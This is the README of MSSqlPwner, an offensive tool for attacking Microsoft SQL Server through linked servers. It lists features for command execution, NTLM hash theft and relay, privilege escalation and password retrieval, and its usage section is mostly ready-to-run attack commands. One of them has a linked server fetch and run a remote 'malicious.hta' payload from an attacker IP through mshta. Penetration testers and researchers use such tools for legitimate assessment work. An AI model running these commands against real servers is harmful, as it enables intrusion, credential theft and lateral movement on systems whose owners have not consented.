 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact and pwn MSSQL servers.
That tool is based on impacket, which allows attackers to authenticate to databases using clear-text passwords NTLM Hashes,  and kerberos tickets.
With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and possible impersonations in order to gather all the possible chains for command execution.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`.

This tool can be used for lateral movement assessments and exploration of linked servers.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find the right chain that will allows command execution. 
For example, if your user cant execute commands in the current context, the tool will build a chain that will use a link server and connect back to our server with escelated privileges.

## Example
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/poc.png?raw=true">
</p>

This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Utilities:
- `interactive`: allow to use the tool interactively with live execution.
- `enumerate`: enumerate the linked servers and the chains.
- `get-chain-list` get the list of the chains (You can filter by hostname using the flag `-filter-hostname HOSTNAME`).
- `get-link-server-list` get the list of the linked servers.
- `set-chain` Set chain ID (For interactive-mode only!)
- `set-link-server` Set link server (For interactive-mode only!)
- `get-rev2self-queries` retrieve queries to revert to SELF (For interactive-mode only!).
- `get-adsi-provider-list` retrieve ADSI provider list.
- `rev2self` revert to SELF (For interactive-mode only!).

2. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` Execute commands using `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` Execute commands using Ole Automation Procedure technique on local server or on linked servers

3. Password Retrieval:
- `retrive-password` Password retrieval from the linked server.

4. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` NTLM stealing using directory listing on local server or on linked servers
- `xp_subdirs` NTLM stealing using subdirectory listing on local server or on linked servers
- `xp_fileexist` NTLM Stealing using file existence check on local server or on linked servers

5. Procedure execution using custom assembly and stored procedures:
- `execute_command` procedure executing commands using custom assembly on local server or on linked servers
- `run_query` procedure executing queries using custom assembly on local server or on linked servers
- `run_query_system_service` procedure executing queries using custom assembly on local server or on linked servers as system user
- `inject-custom-asm` Inject code using custom assembly on local server or on linked servers (You can use modify the following [DLL Example](https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/playbooks/custom-asm/Inject.cs).
6. Direct Queries 
- `direct_query` Execute direct queries on local server or on linked servers


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/ScorpionesLabs/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```


## Usage
```
# Interactive mode
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth interactive

# Interactive mode with 2 depth level of impersonations
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth  -max-impersonation-depth 2 interactive


# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password

# Execute code using custom assembly on the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.